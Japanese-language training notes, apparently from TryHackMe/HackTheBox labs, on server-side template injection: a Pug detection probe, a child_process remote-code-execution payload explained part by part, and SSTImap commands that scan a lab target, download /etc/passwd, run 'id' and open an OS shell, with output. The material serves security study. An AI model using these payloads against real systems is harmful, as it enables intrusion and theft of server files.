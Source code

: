 SSTIの特定
- `#{7*7}`と入力した時に、`49`と返す時、Pugが使用されている

RCE Payload
`#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}`
- `root.process` 
	- Pugテンプレート内で Node.js のグローバル process オブジェクトにアクセスするため
- `mainModule.require('child_process')` 
	- child_process モジュールを動的に読み込むもので、通常の require の使用が制限されている場合でも回避するため
- `spawnSync('ls')`
	- ls コマンドを同期的に実行
	- `spawnSync()`の仕様上、コマンド実行で、引数を取るときにシフトで繋げるとエラーになる
	- 引数を取るときは、`spawnSync('ls', ['-lah'])`のようにする
- `.stdout`
	- そのコマンドの標準出力を取得



## 自動特定ツール
- SSTIの特定および悪用に最もよく使われていたツール
	- https://github.com/vladko312/SSTImap
```sh
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```

脆弱性スキャン
```sh
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

  ファイルのダウンロード
  ```sh
snowyowl644@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'
<SNIP>
[+] File downloaded correctly
```


コマンドの実行
```shell-session
snowyowl644@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

OSシェルの実行
```sh
snowyowl644@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```
